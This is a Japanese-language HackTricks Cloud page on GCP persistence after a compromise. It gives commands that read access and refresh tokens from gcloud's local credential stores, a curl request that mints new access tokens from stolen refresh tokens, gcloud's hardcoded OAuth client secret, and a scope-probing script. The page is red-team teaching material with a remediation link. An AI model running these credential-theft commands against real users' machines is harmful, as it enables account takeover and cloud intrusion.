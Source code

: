 # GCP - Non-svc Persistance

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

これらは、何らかの方法でGCPの資格情報やGCP環境で動作しているマシンを侵害した後に役立つ技術です。

## Token Hijacking

### Authenticated User Tokens

ユーザーの**現在のトークン**を取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

このページで**gcloudを使用してこのトークンを直接使用する方法**を確認してください:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**新しいアクセストークンを生成する**ための詳細を取得するには、次のコマンドを実行します:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**`$HOME/.config/gcloud/application_default_credentials.json`**や**`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**でリフレッシュトークンを見つけることも可能です。

**refresh token**、client ID、およびclient secretを使用して新しいリフレッシュされたアクセストークンを取得するには、次のコマンドを実行します:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効期限は **Admin** > **Security** > **Google Cloud session control** で管理でき、デフォルトでは16時間に設定されていますが、無期限に設定することもできます。

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

`gcloud auth login` のようなものを使用する場合の認証フローは、ブラウザにプロンプトが表示され、すべてのスコープを承認した後、ブラウザがツールによって開かれた http ポートに次のようなリクエストを送信します:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
次に、gcloudは、いくつかのハードコードされた`client_id`（`32555940559.apps.googleusercontent.com`）と**`client_secret`**（`ZmssLNjJy2998hD4CTg2ejr2`）を使用して、**最終的なリフレッシュトークンデータ**を取得します。

{% hint style="danger" %}
localhostとの通信はHTTPで行われるため、データを傍受してリフレッシュトークンを取得することが可能ですが、このデータは1回だけ有効なので、これは無意味です。ファイルからリフレッシュトークンを直接読む方が簡単です。
{% endhint %}

### OAuth Scopes

すべてのGoogleスコープは[https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes)で見つけることができます。または、次のコマンドを実行して取得できます：

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

**`gcloud`**が認証に使用するアプリケーションがサポートできるスコープをこのスクリプトで確認することが可能です:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
```
After executing it it was checked that this app supports these scopes:
```

実行後、このアプリがこれらのスコープをサポートしていることが確認されました:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
このアプリが**`drive`**スコープをサポートしているのは興味深いです。攻撃者がユーザーにこのスコープでトークンを生成させることができれば、GCPからWorkspaceへのエスカレーションが可能になります。

**これを悪用する方法については** [**こちら**](../gcp-to-workspace-pivoting/#abusing-gcloud)**を参照してください**。

### Service Accounts

認証されたユーザーと同様に、サービスアカウントの**秘密鍵ファイルを侵害**することができれば、**通常は好きなだけアクセス**することができます。\
しかし、サービスアカウントの**OAuthトークンを盗む**ことができれば、さらに興味深いことになります。デフォルトではこれらのトークンは1時間しか有効ではありませんが、**被害者が秘密のAPIキーを削除しても、OAuthトークンは有効期限が切れるまで有効**です。

### Metadata

明らかに、GCP環境で動作しているマシン内にいる限り、**メタデータエンドポイントに接続してそのマシンにアタッチされたサービスアカウントにアクセス**することができます（このエンドポイントでアクセスできるOAuthトークンは通常スコープによって制限されています）。

### Remediations

これらの技術に対するいくつかの対策は[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)で説明されています。

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。

</details>
{% endhint %}
